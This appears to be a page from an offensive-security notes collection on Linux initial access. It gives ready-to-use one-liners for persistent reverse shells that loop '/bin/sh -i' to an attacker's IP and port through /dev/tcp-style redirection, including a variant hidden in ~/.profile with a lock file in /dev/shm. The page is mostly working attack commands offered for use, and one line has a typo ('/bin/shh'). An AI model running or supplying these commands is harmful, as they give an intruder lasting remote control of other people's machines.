 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - T1059-004
  - linux
---
```

# Manual

## 01 - Common Files

Refer to this [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Cross Platform/Code Execution/Bash/Manual|section]] of the maximum characters limit.

```
/bin/sh
/usr/bin/sh
/bin/dash
/usr/bin/dash
```

## 02 - Execute Payloads

### 2.1 - Persistent Callback Shell

In case you might lose the callback connection. It's better to make it persistent.

```
$ while true; do /bin/shh -c /path/to/payload; sleep 10; done

$ while true; do /bin/sh -i >& /dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1; sleep 10; done

$ setsid bash -c 'while :; do sh -i &>/dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1; sleep 360; done' &>/dev/null
```

Prevents multiple instances while written in `~/.profile`.

```
$ fuser /dev/shm/.busy &>/dev/null || nohup /bin/sh -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; sh -i &>/dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1 ; sleep 360; done' &>/dev/null &
```

---
## References

### Source Repositories

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)